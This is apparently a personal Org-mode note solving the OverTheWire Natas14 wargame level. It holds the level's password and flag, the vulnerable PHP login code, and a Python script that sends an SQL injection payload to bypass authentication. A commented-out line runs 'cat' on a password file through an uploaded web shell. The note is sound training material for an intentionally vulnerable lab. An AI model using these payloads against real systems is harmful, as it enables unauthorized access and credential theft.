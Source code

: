 :PROPERTIES:
:ID:       97c8b7c2-a841-41a4-ba77-8a5a045b74cb
:END:
#+title: Natas14
* Previous
[[id:d803954c-1f3e-4471-b741-0cb738ec73f8][Natas13]]

* Password
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

* Flag
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* Notes

From top page:
#+begin_src html
   <form action="index.php" method="POST">
    Username:
    <input name="username"/>
    Password:
    <input name="password"/>
    <input type="submit" value="Login">
    </input>
   </form>
#+end_src

From index-source.html:
#+begin_src php
<?
    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas14', '<censored>');

        mysql_select_db('natas14', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";

        if(array_key_exists("debug", $_GET)) {
                echo "Executing query: $query"
        }

        if(mysql_num_rows(mysql_query($query, $link)) > 0) {
          echo "Successful login! The password for natas15 is <censored>";
        } else {
            echo "Access denied!";
        }

        mysql_close($link);

    } else {

        ?>
        <form action="index.php" method="post">
                    Username:
        <input name="username">
                    Password:
        <input name="password">
        <input type="submit" value="login" >
        </input type="submit" value="login" >
        <? } ?>

      <div id="viewsource">
      <a href="index-source.html">
      View sourcecode

      </a href="index-source.html">
      </div id="viewsource">
      </input name="password">
      </input name="username">
      </form action="index.php" method="post">
      </censored>
      </censored>
      </div id="content">
      </body>
      </html>
      </span>
      </code>
#+end_src
#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
import html
from bs4 import BeautifulSoup as bs
from natas_pass import passwords

session = requests.Session()
username = "natas14"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.get(url, auth=(username, password))
# response = session.get(url + "index-source.html", auth=(username, password))

response = requests.post(
    url+"?debug",
    auth=(username, password),
    data={'username':'" or username = ANY (SELECT username FROM users); #', "password":""},
)

raw_content = response.text
# sourcecode = html.unescape(raw_content)
# soup = bs(sourcecode, features="html.parser")
# headers = response.headers
# print(headers)
# print(soup.prettify())

# script_path = re.findall("(upload/[a-zA-Z0-9]{10}.php)", raw_content)[0]

# if script_path :
#     raw_content = requests.get(
#     url+script_path+"?var=cat /etc/natas_webpass/natas14",
#     auth=(username, password)
# ).text
# else :
#     print("Error. No path found.")

p = re.findall("([a-zA-Z0-9]{32})", raw_content)

if p and p[0] == password:
    p.pop(0)

if p :
    print(p[0])
#+end_src

#+RESULTS:
: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* Next
[[id:7d44aa7c-68da-4fb0-bbc5-8315c9d85aad][Natas15]]
